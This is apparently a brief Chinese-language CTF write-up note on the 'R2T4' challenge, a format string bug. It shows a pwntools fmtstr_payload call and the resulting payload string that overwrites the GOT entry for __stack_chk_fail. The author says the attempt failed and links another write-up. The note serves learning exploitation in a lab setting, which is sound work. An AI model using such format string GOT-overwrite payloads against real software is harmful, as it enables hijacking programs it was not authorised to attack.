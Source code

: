 # R2T4

一个格式化字符串洞

![bX4DwI](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/bX4DwI.png)

格式化字符串忘的差不多了

一开始想改栈的值，似乎不太方便。

可以考虑改`0000000000601018 R_X86_64_JUMP_SLOT  __stack_chk_fail@GLIBC_2.4`的got表

```python
>>> fmtstr_payload(6, {0x601018:0x400626})
'\x18\x10`\x00\x19\x10`\x00\x1a\x10`\x00\x1b\x10`\x00%22c%6$hhn%224c%7$hhn%58c%8$hhn%192c%9$hhn'
```

不过没改成功。。。

WP，果然是改 __stack_chk_fail

https://blog.csdn.net/qq_43116977/article/details/105041308